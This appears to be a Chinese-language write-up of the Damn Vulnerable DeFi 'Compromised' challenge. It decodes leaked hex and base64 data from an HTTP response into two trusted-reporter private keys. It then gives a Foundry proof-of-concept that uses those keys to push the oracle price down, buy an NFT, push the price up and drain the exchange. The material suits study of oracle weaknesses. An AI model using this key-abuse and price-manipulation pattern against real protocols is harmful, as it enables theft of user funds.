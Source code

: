 # Compromised (24/09/06)

## 题目介绍

> **妥协的**
>
> **在浏览该领域最受欢迎的DeFi项目之一的网络服务时，您会从服务器那里得到一个奇怪的响应。这是一个片段：**
>
> ```
> HTTP/2 200 OK
> content-type: text/html
> content-language: en
> vary: Accept-Encoding
> server: cloudflare
> 
> 4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30
> 
> 4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
> ```
>
> **一家相关的链上交易所正在出售名为“DVNFT”的（价格高得离谱）收藏品，现在每件售价为999 ETH。**
>
> **此价格来自链上神谕，基于3名受信任的记者：0x188...088，0xA41...9D8和0xab3...a40。**
>
> **从只有0.1 ETH的余额开始，通过拯救交易所中所有可用的ETH来通过挑战。然后将资金存入指定的回收账户。**

## 合约分析

根据题目的相关介绍这道题的突破肯定跟价格预言机有关系的。整个挑战总共有两个主要的文件`Exchange`和`TrustfulOracle`

我们最后想要挑战成功的话有三个条件，第一交易所没有余额，第二恢复账户有*EXCHANGE_INITIAL_ETH_BALANCE*金额，第三玩家不能拥有任何nft，第四价格没有变动。Exchange合约就两个函数买和卖，然后TrustfulOracle合约就是问题所在，我们通过某种方法修改价格最后完成攻击。

``` solidity
    function buyOne() external payable nonReentrant returns (uint256 id) {
        if (msg.value == 0) {
            revert InvalidPayment();
        }

        // Price should be in [wei / NFT]
        uint256 price = oracle.getMedianPrice(token.symbol());
        if (msg.value < price) {
            revert InvalidPayment();
        }

        id = token.safeMint(msg.sender);
        unchecked {
            payable(msg.sender).sendValue(msg.value - price);
        }

        emit TokenBought(msg.sender, id, price);
    }

    function sellOne(uint256 id) external nonReentrant {
        if (msg.sender != token.ownerOf(id)) {
            revert SellerNotOwner(id);
        }

        if (token.getApproved(id) != address(this)) {
            revert TransferNotApproved();
        }

        // Price should be in [wei / NFT]
        uint256 price = oracle.getMedianPrice(token.symbol());
        if (address(this).balance < price) {
            revert NotEnoughFunds();
        }

        token.transferFrom(msg.sender, address(this), id);
        token.burn(id);

        payable(msg.sender).sendValue(price);

        emit TokenSold(msg.sender, id, price);
    }
    
    //预言机修改价格函数
    
    function postPrice(string calldata symbol, uint256 newPrice) external onlyRole(TRUSTED_SOURCE_ROLE) {
        _setPrice(msg.sender, symbol, newPrice);
    }

```



## 解题过程

1.根据题目给出的响应码的参数我们可以我发现他是16进制的，然后我们通过CyberChef的from hex 进行解码以后发现他是base64编码特征，在通过base64编码我们就可以发现他是一组32字节的长度的私钥。

2.根据题目我们把两个16进制同样的执行操作然后转换成私钥。

3.通过foundry的` vm.addr`把私钥导入我们可以看到地址就是预言机的地址。

4.然后我们就可以通过`postPrice`改变nft价格，我们只有0.1 ether，价格降低到0.1两个地址同时进行降低操作。进行购买

5.最好然后拉高到999 ether，卖出。在恢复价格，把钱转到恢复地址。完成攻击

**POC**

``````solidity
    function attack()public payable{
       // 使用第一个私钥导入地址
        uint256 privateKey1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
        address compromisedAddress1 = vm.addr(privateKey1);
        // 使用第二个私钥导入地址
        uint256 privateKey2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;
        address compromisedAddress2 = vm.addr(privateKey2);
//降低价格
        vm.startPrank(compromisedAddress1);
        oracle.postPrice("DVNFT", 0.1 ether);
        vm.stopPrank();
        vm.startPrank(compromisedAddress2);
        oracle.postPrice("DVNFT", 0.1 ether);
        vm.stopPrank();

//购买
        exchange.buyOne{value: 0.1 ether}();
//抬升价格
        vm.startPrank(compromisedAddress1);
        oracle.postPrice("DVNFT", 999100000000000000000);
        vm.stopPrank();
        vm.startPrank(compromisedAddress2);
        oracle.postPrice("DVNFT", 999100000000000000000);
        vm.stopPrank();

        nft.approve(address(exchange), 0); 
//出售        
        exchange.sellOne(0);
        recovery.transfer(999 ether);
//恢复价格
        vm.startPrank(compromisedAddress1);
        oracle.postPrice("DVNFT", 999 ether);
        vm.stopPrank();
        vm.startPrank(compromisedAddress2);
        oracle.postPrice("DVNFT", 999 ether);
        vm.stopPrank();
        console.log("balnce",address(exchange).balance);
``````